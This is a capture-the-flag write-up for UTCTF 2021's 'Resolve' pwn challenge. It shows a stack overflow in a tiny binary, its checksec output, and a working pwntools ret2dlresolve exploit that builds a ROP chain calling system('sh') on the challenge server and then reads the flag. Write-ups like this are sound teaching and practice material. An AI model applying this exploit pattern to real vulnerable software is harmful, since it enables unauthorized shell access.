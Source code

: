 # Resolve

**Category**: Pwn \  
**Points**: 980 (46 solves) \  
**Author**: trab

## Challenge

Yeah you have an overflow, but where do you even jump to? If only there was  
some sort of way to find the address of system.

`nc pwn.utctf.live 5435`

Attachments: `resolve`

## Overview

I threw it into Ghidra and got this:  
```c  
int main() {  
 char buf[8];  
 gets(buf);  
 return 0;  
}  
```

Wow another tiny pwn challenge!  
Let's do `checksec`:

```  
$ checksec resolve  
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

## Solution

The challenge hints at ret2dlresolve, which should work since there's no PIE  
and stack canary.  
Luckily I saw a super elegant ret2dlresolve solution by theKidOfArcrania to  
[babyrop](https://ctftime.org/task/14690) from DiceCTF, so I just edited it  
slightly and it worked!

Pwntools is so powerful sometimes it makes me feel like a script kiddie lol.

```python  
import pwn

pwn.context.binary = e = pwn.ELF("./resolve")

# p = pwn.process("./resolve")  
p = pwn.remote("pwn.utctf.live", 5435)

if pwn.args.GDB:  
   pwn.gdb.attach(  
       p,  
       gdbscript="""  
break *(&main+29)  
continue  
   """,  
   )

r = pwn.ROP(e)  
d = pwn.Ret2dlresolvePayload(e, symbol="system", args=["sh"])  
r.raw(0x401159)  # ret gadget to align stack  
r.gets(d.data_addr)  
r.ret2dlresolve(d)

payload = pwn.fit({0x10: r.chain()}) + b"\n" + d.payload  
p.sendline(payload)  
p.interactive()  
```

Output:  
```  
$ python3 solve.py  
[*] '/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to pwn.utctf.live on port 5435: Done  
[*] Loading gadgets for
'/home/plushie/Programs/bbb_writeups/2021/utctf/Resolve/resolve'  
[*] Switching to interactive mode  
$ ls  
flag.txt  
$ cat flag.txt  
utflag{2_linker_problems_in_one_ctf?8079235}  
```  

Original writeup (https://github.com/cscosu/ctf-
writeups/tree/master/2021/utctf/Resolve).
